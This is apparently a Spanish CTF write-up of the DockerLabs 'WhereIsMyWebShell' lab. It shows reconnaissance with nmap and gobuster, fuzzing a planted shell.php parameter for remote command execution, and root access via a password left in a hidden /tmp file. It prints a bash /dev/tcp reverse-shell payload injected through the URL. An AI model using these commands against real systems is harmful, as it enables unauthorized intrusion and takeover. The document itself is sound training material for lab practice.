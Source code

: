 # [WhereIsMyWebShell](https://dockerlabs.es/)

> [!IMPORTANT]  
Créditos: [https://trr0r.github.io](https://trr0r.github.io/)

## Despliegue

Primero desplegamos la máquina con `sudo ./auto_deploy.sh whereismywebshell.tar`

![image](https://github.com/strakie/WriteUps/blob/d9322022da59efa8c66b45d6cd63572b8bc37488/images/Captura%20desde%202025-03-23%2017-45-05.png)

## Reconocimiento

Una vez hayamos montado la máquina, tenemos que comprobar su conectividad con `ping -c 1 172.17.0.2`
<br>

![image](https://github.com/strakie/WriteUps/blob/157530818036902c998233a74098e93f47930dfd/images/2.png)

`-c 1` ⮞ Indica que unicamente enviará 1 paquete y recibira 1.

<br>

Ahora, vamos a proceder a hacer un escaneo de nmap `sudo nmap -sSCV -n -Pn --min-rate 5000 -p- --open 172.17.0.2 -oG escaneo`

`-sSCV` ⮞ hace un escaneo SYN sigiloso `-sS`, ejecuta scripts por defecto `-sC` y detecta versiones de servicios `-sV`<br>
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br>
`-Pn` ⮞ ignora si esta activa o no la IP<br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**.
<br>

![image](https://github.com/strakie/WriteUps/blob/783852e339c00c13801b356490ac7b28e6ef85f2/images/3.png)

<br>
<br>

## Página Web

Al ver que la máquina está alojando un servidor web, nos dirigimos a él poniendo en la barra de busqueda su ip, que en este caso sería `172.17.0.2`. Dicha web, tiene la siguiente apariencia:

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/edb8225a-071e-47d2-ba92-8cb06fa05d83)

Luego de revisar la página web en busca de posibles vulnerabilidades, al final de la página nos aparecería esta pista:

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/06fe23b4-16f2-4cd4-8095-f03c15f84269)

<br>

Inspeccionamos el Código Fuente con `CTRL + U` pero no encontramos nada interesante, por lo que pasamos a hacer fuzzing con el siguiente comando: `gobuster dir -w /home/kali/seclists/directory-medium -u http://172.17.0.2 -x txt,sql,py,js,php,html`<br>

`-w` ⮞ indica la ubicación del diccionario a emplear.<br>
`-u` ⮞ especifíca la dirección url a la que le haremos fuzzing.<br>
`-x` ⮞ declara que buscamos sub-dominios con las declaradas extensiones.<br>

Nos encuentra los siguientes archivos:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e315816c-9bc5-448d-b864-077f91631082)

<br>

<br>

Vemos un archivo un poco extraño llamado `shell.php`, si nos dirigimos a la página web no nos aparece nada. Por lo que probaremos a hacerle fuzzing al parámetro de este archivo a ver si tiene alguno el cual nos permita ejecutar comando remotamente usaremos la herramienta `wfuzz` de la siguiente forma: `wfuzz -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/shell.php?FUZZ=id --hc 404 --hl 0`, nos encuentra lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6fc866f7-331b-4f59-bb03-eb54c4ad3d35)

<br>

Por lo que nos vamos a la web y en la URL introducimos `http://172.17.0.2/shell.php?parameter=id`, comprobamos que estamos ante una RCE.
<br>

Sabiendo que podemos ejecutar comandos remotamente nos enviaremos una [revshell](https://www.revshells.com/). 

<br>

En primer lugar, nos pondremos en escucha por el puerto especificado, en este caso el `443` con el siguiente comando `nc -nlvp 443`.

<br>

En segundo lugar, le pasamos de valor a `parameter` lo siguiente `bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, por lo tanto la URL quedaría así `172.17.0.2/shell.php?parameter=bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, vemos que la página web se queda cargando y recibiremos la reverse shell:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/28d5cfd0-1400-48a6-8410-e27c0278322d)

<br>
<br>

## Escalada de Privilegios

Comprobamos que hemos accedido a la máquina como **www-data**:
<br>

 > El (;) concatena dos comandos.

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e3d0974c-19ab-4f5a-838e-4800b942e188)

<br>

El primer lugar, haremos un Tratamiento de la TTY ejecutando en orden las siguientes infracciones: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

<br>

Ejecutamos el comando `sudo -l` para ver que podemos ejecutar como sudo, pero no encontramos nada: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/95fb08c9-21e9-4b8a-ac90-a167c34be2dc)

<br>

Al igual que si ejecutamos `find / -perm -4000 2>/dev/null` en búsqueda de permisos SUID no encontramos nada potencial para escalar privilegios. 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d1835fdd-3a85-4a79-a1af-46fb2da486b5)

`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores 

<br>

Si recordamos en la página web nos dió la siguiente pista:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/06fe23b4-16f2-4cd4-8095-f03c15f84269)

<br>

Por lo que nos dirigimos al directorio `/tmp`, y si hacemos `ls` no vemos nada pero si hacemos `ls -la` observamos un archivo oculto `.secret.txt`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/fe0b5ab0-b49b-45c1-87d9-47f9e41f38fe)

<br>

El contenido de este archivo es el siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9ad4268b-00fb-4d08-9580-7027c5f53328)

<br>

Por lo que probamos a autenticarnos como **root** haciendo `su root`, ponemos de contraseña `contraseñaderoot123`, y listo ya somos **root!**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/645487d7-bf3d-457c-90a8-b447b682de84)
